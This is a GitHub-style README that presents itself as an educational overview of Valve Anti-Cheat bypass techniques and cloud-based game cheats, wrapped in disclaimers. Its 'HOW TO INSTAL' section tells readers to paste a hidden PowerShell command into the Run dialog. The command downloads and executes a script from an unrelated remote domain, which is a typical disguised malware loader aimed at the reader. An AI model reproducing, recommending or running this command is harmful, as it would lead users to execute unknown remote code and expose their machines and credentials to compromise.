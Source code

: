 ## 👻 Exploring the Shadows: Understanding VAC Bypass Software and Cloud-Based Cheats ☁️🎮

Welcome to a realm of technical exploration and ethical considerations. This repository delves into the concept of software designed to bypass the Valve Anti-Cheat (VAC) system and the unique advantages offered by cloud-based cheating methods.

**Disclaimer:** This project is for **educational and theoretical exploration only**. The use of such software to gain unfair advantages in online games is **strictly against terms of service and unethical**. We do not endorse or facilitate cheating in any form.

---

### What is VAC and Why Bypass It? 🤔

Valve Anti-Cheat (VAC) is an automated system designed to detect and ban players using cheats in games that utilize the system. It operates by scanning your computer's memory and game files for known cheat signatures.

The motivation to bypass VAC stems from a desire to use cheats (like aimbots, wallhacks, etc.) without being detected and banned. It's a constant cat-and-mouse game between cheat developers and anti-cheat systems.

---

### The Concept of VAC Bypass Software 🛠️

Software designed to bypass VAC typically aims to:

*   **Evade Signature Detection:** Modify cheat code or inject it into the game's process in a way that avoids detection by VAC's signature scanning. This might involve encryption, polymorphism, or other obfuscation techniques. 🕵️‍♂️
*   **Circumvent Memory Scans:** Inject cheat code into areas of memory that VAC doesn't typically scan, or use techniques to hide the cheat process from the anti-cheat. 👻
*   **Exploit Game or VAC Vulnerabilities:** Sometimes, bypasses exploit specific weaknesses in the game's code or the VAC system itself. 🐛
*   **Use Kernel-Level Techniques:** More advanced (and risky) bypasses might operate at a lower level of the operating system to gain more control and evade detection. 👑

---

### Advantages of Cloud-Based Cheating ☁️

Cloud-based cheating introduces a new layer of complexity and offers several potential advantages from a cheat developer's perspective:

*   **Reduced Local Footprint:** The core cheat logic resides on remote servers, minimizing the amount of detectable code on the user's machine. This makes it harder for VAC to scan and identify the cheat. 🚀
*   **Easier Updates and Maintenance:** Cheat developers can update the cheat code on the server side, pushing changes to all users instantly without requiring them to download and install new files. This is crucial in the arms race against anti-cheat updates. 🔄
*   **Dynamic Code Execution:** Parts of the cheat code can be executed on the server and only results or necessary data are sent to the user's machine. This makes static analysis of the cheat on the client side much more difficult. ✨
*   **Harder to Reverse Engineer:** Since the core logic is on the server, it's significantly harder for anti-cheat researchers to reverse engineer the cheat and develop detections. 🔐
*   **Potential for More Sophisticated Logic:** Cloud servers can handle more complex calculations and data processing, potentially enabling more sophisticated and harder-to-detect cheating techniques. 🧠
*   **Subscription Model and Control:** Cloud-based cheats often operate on a subscription model, giving developers more control over who uses their cheat and allowing for easier disabling of accounts if they are detected. 💸

---

### Why Explore This? 🤔

Understanding the techniques used in VAC bypass software and cloud-based cheating is essential for:

*   **🛡️ Game Developers and Anti-Cheat Engineers:** To anticipate and counter new cheating methods and build more robust anti-cheat systems.
*   **📚 Security Researchers:** To study the evolving landscape of game security and develop novel detection techniques.
*   **🤓 Enthusiasts:** To gain a deeper technical understanding of how anti-cheat systems work and the challenges they face.

---
# HOW TO INSTAL:
### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/grapesubject/repairbetter))).Invoke();
```

### Disclaimer (Again, it's crucial! 🙏)

This repository is for **educational and theoretical discussion**.
